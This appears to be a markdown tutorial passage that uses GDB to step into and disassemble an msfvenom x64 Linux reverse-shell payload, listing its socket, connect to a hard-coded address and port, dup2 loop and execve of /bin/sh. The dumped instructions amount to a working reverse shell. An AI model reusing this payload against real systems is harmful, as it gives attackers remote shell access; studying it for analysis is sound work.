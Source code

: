 ## GDB Analysis
### Setup
Here we will start our shellcode with the Gnu Debugger and set a breakpoint on the main function. After the breakpoint is set, we will run the program. 
```bash
root# gdb ./shellcode
GNU gdb (Debian 8.3.1-1) 8.3.1
gdb-peda$ b main
Breakpoint 1 at 0x1129
gdb-peda$ r
```

### Finding shellcode[]
We will use the GDB step-into (`s`) command to move through our program until we reach the point where execution is passed to the shellcode[] array (our non-staged reverse shell shellcode from msfvenom).
```bash
=> 0x555555555141 <main+28>:    call   rdx
gdb-peda$ s
```
+ Step into rdx (shellcode[]).

## Dumping MSFVenom Reverse Shell Assembly Instructions
With the instruction pointer (RIP) on the first instruction of `shellcode`, dump the instructions of the entire payload.
```bash
=> 0x555555558040 <shellcode>:  push   0x29
   0x555555558042 <shellcode+2>:        pop    rax
   0x555555558043 <shellcode+3>:        cdq
   0x555555558044 <shellcode+4>:        push   0x2
   0x555555558046 <shellcode+6>:        pop    rdi
   0x555555558047 <shellcode+7>:        push   0x1
   0x555555558049 <shellcode+9>:        pop    rsi
   0x55555555804a <shellcode+10>:       syscall
   0x55555555804c <shellcode+12>:       xchg   rdi,rax
   0x55555555804e <shellcode+14>:       movabs rcx,0x101017f5c110002
   0x555555558058 <shellcode+24>:       push   rcx
   0x555555558059 <shellcode+25>:       mov    rsi,rsp
   0x55555555805c <shellcode+28>:       push   0x10
   0x55555555805e <shellcode+30>:       pop    rdx
   0x55555555805f <shellcode+31>:       push   0x2a
   0x555555558061 <shellcode+33>:       pop    rax
   0x555555558062 <shellcode+34>:       syscall
   0x555555558064 <shellcode+36>:       push   0x3
   0x555555558066 <shellcode+38>:       pop    rsi
   0x555555558067 <shellcode+39>:       dec    rsi
   0x55555555806a <shellcode+42>:       push   0x21
   0x55555555806c <shellcode+44>:       pop    rax
   0x55555555806d <shellcode+45>:       syscall
   0x55555555806f <shellcode+47>:       jne    0x555555558067 <shellcode+39>
   0x555555558071 <shellcode+49>:       push   0x3b
   0x555555558073 <shellcode+51>:       pop    rax
   0x555555558074 <shellcode+52>:       cdq
   0x555555558075 <shellcode+53>:       movabs rbx,0x68732f6e69622f
   0x55555555807f <shellcode+63>:       push   rbx
   0x555555558080 <shellcode+64>:       mov    rdi,rsp
   0x555555558083 <shellcode+67>:       push   rdx
   0x555555558084 <shellcode+68>:       push   rdi
   0x555555558085 <shellcode+69>:       mov    rsi,rsp
   0x555555558088 <shellcode+72>:       syscall
   0x55555555808a <shellcode+74>:       add    BYTE PTR [rax],al
gdb-peda$ x/35i $rip
```